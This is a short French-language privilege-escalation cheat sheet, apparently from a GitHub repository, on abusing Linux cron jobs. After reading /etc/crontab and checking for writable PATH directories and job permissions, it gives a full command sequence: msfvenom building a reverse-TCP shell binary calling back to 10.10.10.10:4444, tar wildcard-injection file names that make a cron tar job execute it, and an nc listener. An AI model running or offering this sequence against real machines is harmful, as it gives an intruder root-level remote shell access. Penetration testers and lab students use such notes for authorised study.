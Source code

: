 
```sh
cat /etc/crontab
```

Afficher les taches planifier.

**Pour exploiter:**

- Verifier la variable PATH qui afficher par ou le systeme vas chercher les executables.
Si c'est dans un repertoir ou nous avons les acces en ecriture, nous pouvons ursuper l'un des jobs en cours et ecrire nos propre shell

- Determiner l'utilisateur qui execute la tache 
- Verifier le chemin relatif ou absolut des fichiers 
- Verifie si vous avez les autorisation de lecteur ou d'ecrite sur les programmes en cour

**Exemple d'exploitation generic avec tar**

```sh
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
```

```sh
chmod +x /home/user/shell.elf
```

```sh
touch /home/user/--checkpoint=1  
touch /home/user/--checkpoint-action=exec=shell.elf
```

```sh
nc -nvlp 4444
```

